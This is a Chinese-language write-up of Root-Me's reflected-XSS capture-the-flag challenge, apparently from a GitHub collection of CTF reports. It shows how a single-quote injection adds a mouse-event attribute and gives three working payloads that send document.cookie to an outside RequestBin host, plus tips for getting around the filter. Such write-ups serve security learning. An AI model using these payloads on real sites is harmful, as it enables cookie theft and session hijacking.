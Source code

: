## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[XSS - Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)] [[解题报告](http://exp-blog.com/2019/01/02/pid-2683/)]

------

题目已经提示是反射型 XSS 的题型，但题目已经提示了 **admin 不会点击所有可疑的 XSS 链接**， 亦即我们要想办法令我们的 XSS 在 **不被点击** 的前提下触发。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/01.png)

看过了所有页面，只有在 Contact us 页面的留言区有输入点，但不是注入点，因为留言后页面提示这里会扔掉所有消息并不会查看。

查看页面源码，发现有一个隐藏页面 Security ， 但打开发现是个 404 页面。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/02.png)

不过注意到，修改 URL 中的 `?p=${xxx}` ， 404 页面中会对应打印 `The page ${xxx} could not be found.` ，其中 `${xxx}` 被嵌入到 &lt;a&gt; 标签的 href 属性：`<a href="?p=${xxx}" >${xxx}</a>`，怀疑这里可能是一个 XSS 注入点。

不过测试发现，这个注入点对很多 html 符号做了过滤，`<>"+` 等符号都被过滤了，注入难度较高。唯独单引号 `'` 没有被过滤，因此可以用它来关闭前一个 href 属性，注入可以触发 XSS 的属性。

尝试构造 URL 的 payloads 参数：`?p=exp' onmousemove='alert(1)`，发现 &lt;a&gt; 标签被注入成为 `<a href="?p=exp" onmousemove="alert(1)">`，亦即成功注入了 `onmousemove` 属性，当鼠标经过这个链接时，就会触发 XSS 。

而之所以注入 `onmousemove` 属性而非 `onclick` 属性，是因为题目已经明确表示  **admin 不会点击所有可疑的 XSS 链接** ，因此注入的 XSS 行为是不能通过点击触发的，且必须是 js 脚本。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/03.png)

据此可以构造真正的 payloads 了，下面几条都是我构造的有效 payloads ，任选一条均可。其中 `${HOST}` 是通过 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器：

```javascript
# 注意构造 payloads 的时候必须清楚哪些字符是被过滤的，尤其是 +，此处用 concat 代替
# 这 3 条 payloads 任一条均可用
exp' onmouseover='document.location=%22${HOST}?%22.concat(document.cookie)
exp' onmouseover='document.write(%22<img src=${HOST}?%22.concat(document.cookie).concat(%22 />%22))
exp' onmouseover='setTimeout(function()%7Bdocument.location=%22${HOST}?%22.concat(document.cookie);%7D,1)
```

点击 `REPORT TO THE ADMINISTRATOR` 按钮提交 payloads， 然后在 `${HOST}` 等待 robot 触发 XSS 即可（大概需要一分钟）。若触发成功则会收到一个 flag ，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/04.png)
![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/05.png)

> 本题要点：
<br/>　　○ flag 是在 cookie 里面的，因此必须窃取 `document.cookie`
<br/>　　○ 必须要清楚哪些字符被过滤了，尤其注意 `+` 也是在过滤列表中，即使编码成 `%2B` 也绕不过去，很多同学构造号 payloads 后，在本地可以触发，但是提交后 rotbot 却不触发，就是这个原因。
<br/>　　○ `onmousemove`、`onmouseover`、`onmouseenter`、`onmouseout` 等 &lt;a&gt; 的属性都是可以被 rotbot 触发的
<br/>　　○ robot 真的很仿真，而且似乎还担心触发不到事件，只要 payloads 是对的，就会连续触发 5 次

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
